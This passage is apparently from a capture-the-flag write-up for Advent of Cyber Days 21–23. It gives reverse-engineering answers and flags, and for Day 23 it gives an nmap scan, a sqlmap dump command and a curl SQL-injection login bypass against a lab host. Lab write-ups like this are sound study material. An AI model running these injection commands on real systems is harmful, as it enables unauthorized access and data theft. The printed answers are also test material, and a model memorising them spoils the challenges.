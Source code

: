 > THM{b27d33705f97ba2e1f444ec2da5f5f61}

---

## *[Day 21] Reverse Elf-ineering*

![reversed](https://i.postimg.cc/PJ09BcVw/main.png)

- What is the value of local_ch when its corresponding movl instruction is called(first if multiple)?

> 1

- What is the value of eax when the imull instruction is called?

> 6

- What is the value of local_4h before eax is set to 0?

> 6

---

## *[Day 22] If Santa, Then Christmas*

![reverse](https://i.postimg.cc/wBnYL1gz/main.png)

- what is the value of local_8h before the end of the main function?

> 9

- what is the value of local_4h before the end of the main function?

> 2

---

## *[Day 23] LapLANd (SQL Injection)*

```bash
$ sudo nmap 10.10.87.146 -Pn -p- -vv -T4 -A -oN nmap-scan --min-parallelism 55 --script discovery,vuln

$ sqlmap -u http://10.10.87.146/register.php --forms --dbms=mysql --random-agent --level 5 --risk 3 --dump
```

- Which field is SQL injectable? Use the input name used in the HTML code.

> log_email

- What is Santa Claus' email address?

> bigman@shefesh.com

You can obtain Santa Claus's session cookie like this:

```bash
$  curl http://10.10.87.146/register.php -X POST -d 'log_email=bigman%40shefesh.com%27%3B--%20-&log_password=dd&login_button=Login' -v
```
